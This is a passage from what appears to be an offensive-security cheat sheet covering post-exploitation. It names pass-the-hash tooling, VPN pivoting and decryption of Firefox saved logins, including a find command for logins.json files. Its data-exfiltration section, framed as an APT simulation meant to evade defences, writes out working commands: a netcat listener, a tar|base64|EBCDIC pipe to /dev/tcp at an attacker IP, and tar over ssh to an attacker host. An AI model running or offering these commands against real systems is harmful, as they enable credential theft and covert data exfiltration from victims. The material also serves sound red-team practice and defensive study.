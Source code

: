 The file contains the `NTLM` hash of the computer account  

-> Use the [pthtoolkit](https://github.com/byt3bl33d3r/pth-toolkit) to pass-the-hash over the network.  

### VPN Pivot  

> Create VPN connection to the compromised host

- [source](https://github.com/0x36/VPNPivot)  

### dump FF creds  

> Get the logins file and decrypt it, works only if master password was NOT set

- [ff_decrypt](https://github.com/unode/firefox_decrypt)

Check for files: 

```bash
find /home -name logins.json -type f 2> /dev/null
```

Or Let the tool do all the work for you!

## Data Exfiltration  

> APT simulation and getting the data out of the environment
> Avoid cleartext transmission to bypass defense and not leak anything to others...

Example exfiltrations following:

### Exfil via TCP / EBCDIC / BASE64  

1. Prepare attacker for receiving data  

```bash
nc -nlvp 80 > data.tmp
```

2. Prepare data on victim side and transmit the double encoded, zipped data to the attacker machine

```bash
tar zcf - /tmp/<datafolder> | base64 | dd conv=ebcdic > /dev/tcp/<attackerIP>/80
```

3. Attacker side double decode and extract  

```bash
dd conv=ascii if=data.tmp | base64 -d > data.tar
tar xf data.tar
``` 

### Exfil via SSH  

1. Victim: tar the files and ssh over to the attacker machine  

```bash
tar zcf - /tmp/data | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``` 
